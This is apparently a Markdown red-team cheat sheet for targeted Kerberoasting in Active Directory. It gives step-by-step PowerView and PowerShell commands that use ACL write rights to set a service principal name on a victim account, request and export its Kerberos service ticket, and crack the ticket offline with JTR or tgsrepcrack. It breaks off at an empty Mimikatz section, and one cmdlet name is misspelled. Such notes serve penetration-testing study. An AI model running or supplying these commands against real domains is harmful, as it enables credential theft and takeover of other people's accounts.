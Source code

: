## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Search all the members who have the specific group required on ACL's; In this case RDPUsers
- [x] 2. Check if the SPN does not already exist
- [x] 3. If not create a unique SPN for that account
- [x] 4. Request a TGS
- [x] 5. Export the tickets
- [x] 6. Crack the file created of that service using JTR or tgsrepcrack


## <span style="color:lightgreen">PowerView Dev</span>

### <span style="color:#F1C232">1. Check group rights on ACL's</span>
 
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### <span style="color:#F1C232">2. Check if the user already has a SPN</span>
 
```powershell
Get-DomainUser -Identity <user-here> | select serviceprincipalname
```

### <span style="color:#F1C232">3. Set a SPN for the user (must be unique for the domain)</span>
 
```powershell
Set-DomainoObject -Identity <user-here> -Set @{serviceprincipalname='ops/whatever1'}
```



## <span style="color:lightgreen">Cmdlet</span>

### <span style="color:#F1C232">4. Request TGS</span>
  
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```

### <span style="color:#F1C232">Check if the TGS has been granted</span>
 
```powershell
klist
```


## <span style="color:lightgreen">Invoke-Mimikatz</span>
